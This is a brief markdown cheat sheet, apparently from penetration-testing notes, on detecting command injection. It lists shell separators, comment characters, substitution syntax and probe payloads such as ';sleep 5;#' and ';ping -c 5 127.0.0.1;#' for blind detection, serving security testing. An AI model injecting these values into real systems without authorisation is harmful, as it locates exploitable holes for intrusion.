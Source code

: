 # Detecting Command Injection
## Detection
** Enumerate and identify server language before attempting **
### Separators
Windows/Unix - `|` `||` `&` `&&`
Unix - `;` `\n` `0x0a`

### Comments
Unix - `#`
Windows - `::`

### Obvious Injection
Bash - `& echo blah &`

### Inline Injection
Bash - `<CMD>` `$(<CMD>)`

### Blind Injection Detection
#### Sleep - Can't use with `&`
Bash - `;sleep 5;#`

#### Ping
Bash - `;ping -c 5 127.0.0.1;#`
Cmd - `;ping /n 5 127.0.0.1;#`

#### Links
[3.3 Command Injection](3.3%20Command%20Injection.md)
